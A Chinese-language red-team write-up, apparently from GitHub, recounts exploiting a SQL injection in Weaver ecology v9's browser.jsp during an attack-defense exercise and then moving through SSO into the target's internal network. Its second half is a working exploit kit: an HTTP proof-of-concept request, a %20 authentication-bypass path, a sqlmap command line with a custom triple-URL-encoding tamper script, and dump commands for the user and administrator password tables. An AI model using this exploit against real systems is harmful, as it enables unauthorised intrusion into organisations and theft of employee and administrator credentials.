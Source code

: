 # 009-实战总结篇-ecology v9 browser.jsp SQL注入漏洞利用

## 前言

世事一场大梦，人生几度秋凉

本文记录的是：在一场小型攻防演练中使用N day（cology9 browser.jsp SQL注入漏洞）+0 day从而getshell直捣内网的秋凉故事

## 主线剧情

靶标单位ecology OA存在Nday browser.jsp SQL注入漏洞

![](img/WPS图片编辑.png)

oracle数据库、DBA权限、站库分离，由于Oracle版本原因我同事在这里并没有getshell（欢迎师傅们拔刀相助，给出指点）

![](img/e1013a3c005a0a8bf8725839ba78730.png)

![](img/4f923b9c72d13def22abd8f500155bc.png)

跑后台账户密码，管理员密码无法解出，只有海量普通用户密码青睐于我，成功进入后台

![](img/eba385b51a24fbe8926bf5111f1b03d.png)

在对该单位做信息收集时就发现存在一些符合我尺寸的系统，但做了认证处理，果然登录OA后可以直接SSO过去

![](img/fad666bfb5cfafb592b4920f85b118c.png)

单点登录后，通过其他系统的漏洞成功进入靶标单位内网

![](img/040e6925c0cbb0b250066af80930a6e.png)

## 支线剧情

漏洞原理：https://mp.weixin.qq.com/s/17tc4ep83x4243lzr-brCg

列举一下在实战过程中可能会碰到的坑点，如下：

1、漏洞poc

```http
POST /mobile/plugin/browser.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1654

isDis=1&browserTypeId=269&keyword=*
```

2、使用%20未授权访问

> /mobile/plugin/%20/browser.jsp

3、sqlmap用法

注入语句要三次全字符串URL编码，python sqlmap.py -r post.req --level 2 --risk 1 --random-agent --is-dba --thread=4 --tamper=urlencode3.py --proxy http://127.0.0.1:8080

urlencode3.py

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

# URL encoding for all characters
def tamper(payload, **kwargs):
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in payload])
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])
    encoded_payload = encoded_payload.replace(' ', '%20')
    return encoded_payload
```

4、对泛微OA的库结构，表字段不够熟悉

HrmRoles 角色信息表

HrmResource 员工信息表

> -D WCOADBA -T HrmResource -C LOGINID,PASSWORD --threads=10 --dump

HrmResourceManager 管理员表

> -D WCOADBA -T HrmResourceManager -C "password" --dump

## 总结

持续学习，坚持分享，诸君共勉，夯实前行！

攻防演练最容易上分的时代已经过去了，就拿OA来举例，往前推一、两年，OA基本上一打一个准，而如今运气好捡个漏，还真不一定能打的下来、打的进去、站得住脚。